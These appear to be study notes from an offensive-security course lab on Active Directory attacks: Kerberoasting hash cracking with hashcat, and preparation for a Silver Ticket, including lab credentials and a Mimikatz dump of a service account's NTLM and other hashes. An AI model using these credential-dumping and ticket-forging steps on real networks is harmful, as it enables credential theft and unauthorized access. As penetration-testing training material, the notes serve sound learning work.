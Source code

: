 #### Step 2: Crack Dat Hash 
###### Command: `sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

#### Targeted Kerberoasting
Use _GenericWrite_ or _GenericAll_ permissions to set an SPN for user, kerberoast account, and crack password hash

### Silver Tickets
- Forging service tickets to target resource
- If _Privileged Account Certificate_ (PAC)[1](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/silver-tickets-46109#fn-local_id_37-1) validation between the SPN and DC is disabled, the service & its privileges is not verified

#### Info Needed to Create Silver Ticket
- SPN Password Hash 
- Domain SID
- Target SPN

#### Step 1: RDP to CLIENT75 as `jeff: HenchmanPutridBonbon11` & Confirm User Has No Access to HTTP SPN Resource 
```hlt:1
PS C:\Users\jeff> iwr -UseDefaultCredentials http://web04
iwr :
401 - Unauthorized: Access is denied due to invalid credentials.
Server Error
```

#### Step 2: Collect SPN (NTLM) Hash of _iis_service_ using Mimikatz
```hlt:1,4,15,17
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...
```

